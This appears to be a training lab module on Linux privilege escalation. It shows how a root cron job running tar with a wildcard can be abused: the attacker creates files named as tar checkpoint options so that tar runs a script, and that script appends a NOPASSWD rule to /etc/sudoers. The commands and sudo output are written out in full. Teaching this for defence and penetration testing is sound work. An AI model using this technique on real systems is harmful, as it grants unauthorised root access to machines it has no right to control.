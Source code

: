 
<h1>Wildcard Abuse</h1>
<hr/>
<p>A wildcard character can be used as a replacement for other characters and are interpreted by the shell before other actions. Examples of wild cards include:</p>
<table>
<thead>
<tr>
<th><strong>Character</strong></th>
<th><strong>Significance</strong></th>
</tr>
</thead>
<tbody>
<tr>
<td><code>*</code></td>
<td>An asterisk that can match any number of characters in a file name.</td>
</tr>
<tr>
<td><code>?</code></td>
<td>Matches a single character.</td>
</tr>
<tr>
<td><code>[ ]</code></td>
<td>Brackets enclose characters and can match any single one at the defined position.</td>
</tr>
<tr>
<td><code>~</code></td>
<td>A tilde at the beginning expands to the name of the user home directory or can have another username appended to refer to that user's home directory.</td>
</tr>
<tr>
<td><code>-</code></td>
<td>A hyphen within brackets will denote a range of characters.</td>
</tr>
</tbody>
</table>
<p>An example of how wildcards can be abused for privilege escalation is the <code>tar</code> command, a common program for creating/extracting archives. If we look at the <a href="http://man7.org/linux/man-pages/man1/tar.1.html">man page</a> for the <code>tar</code> command, we see the following:</p>
<pre><code class="language-shell-session">htb_student@NIX02:~$ man tar

&lt;SNIP&gt;
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
</code></pre>
<p>The <code>--checkpoint-action</code> option permits an <code>EXEC</code> action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, <code>--checkpoint=1</code> and <code>--checkpoint-action=exec=sh root.sh</code> is passed to <code>tar</code> as command-line options. Let's see this in practice.</p>
<p>Consider the following cron job, which is set up to back up the <code>/home/htb-student</code> directory's contents and create a compressed archive within <code>/home/htb-student</code>. The cron job is set to run every minute, so it is a good candidate for privilege escalation.</p>
<pre><code class="language-shell-session">#
#
mh dom mon dow command
*/01 * * * * cd /home/htb-student &amp;&amp; tar -zcf /home/htb-student/backup.tar.gz *
</code></pre>
<p>We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.</p>
<pre><code class="language-shell-session">htb-student@NIX02:~$ echo 'echo "htb-student ALL=(root) NOPASSWD: ALL" &gt;&gt; /etc/sudoers' &gt; root.sh
htb-student@NIX02:~$ echo "" &gt; "--checkpoint-action=exec=sh root.sh"
htb-student@NIX02:~$ echo "" &gt; --checkpoint=1
</code></pre>
<p>We can check and see that the necessary files were created.</p>
<pre><code class="language-shell-session">htb-student@NIX02:~$ ls -la

total 56
drwxrwxrwt 10 root        root        4096 Aug 31 23:12 .
drwxr-xr-x 24 root        root        4096 Aug 31 02:24 ..
-rw-r--r--  1 root        root         378 Aug 31 23:12 backup.tar.gz
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint=1
-rw-rw-r--  1 htb-student htb-student    1 Aug 31 23:11 --checkpoint-action=exec=sh root.sh
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .font-unix
drwxrwxrwt  2 root        root        4096 Aug 31 22:36 .ICE-unix
-rw-rw-r--  1 htb-student htb-student   60 Aug 31 23:11 root.sh
</code></pre>
<p>Once the cron job runs again, we can check for the newly added sudo privileges and sudo to root directly.</p>
<pre><code class="language-shell-session">htb-student@NIX02:~$ sudo -l

Matching Defaults entries for htb-student on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on NIX02:
    (root) NOPASSWD: ALL
</code></pre>
